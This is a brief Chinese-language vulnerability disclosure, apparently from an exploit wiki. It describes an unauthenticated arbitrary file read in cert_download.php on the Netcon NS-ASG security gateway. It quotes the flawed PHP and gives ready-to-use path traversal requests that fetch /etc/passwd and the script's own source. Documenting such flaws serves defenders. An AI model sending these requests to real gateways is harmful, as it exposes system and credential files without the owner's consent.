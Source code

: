 # 网康 NS-ASG安全网关 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> 网康 NS-ASG安全网关 

## FOFA

> [!NOTE]
>
> 网康 NS-ASG安全网关

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?> 
```

此文件没有对身份进行校验即可下载任意文件

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/qax-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=cert_download.php
```

![](http://wikioss.peiqi.tech/vuln/qax-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)